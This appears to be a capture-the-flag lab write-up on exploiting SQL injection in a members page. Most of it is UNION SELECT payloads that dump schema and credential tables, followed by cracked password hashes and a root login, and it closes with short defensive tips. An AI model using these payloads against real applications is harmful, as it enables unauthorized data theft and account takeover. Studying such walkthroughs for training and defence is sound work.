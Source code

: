 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found password and user columns on db_default .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default
```
6. Now we have go to the sign in area and try: root:shadow
```
 Log in using Username:root Password: shadow
```
### How to protect
 - use ORM system
 - Input Validation like restricting input size, and if the data is a name it doesnt have to contain numbers  and if the data is a number we could block string from it.
 - Sanitize user input by checking some chars in the input and exchanging it so the SQL doesn't interpeter these.
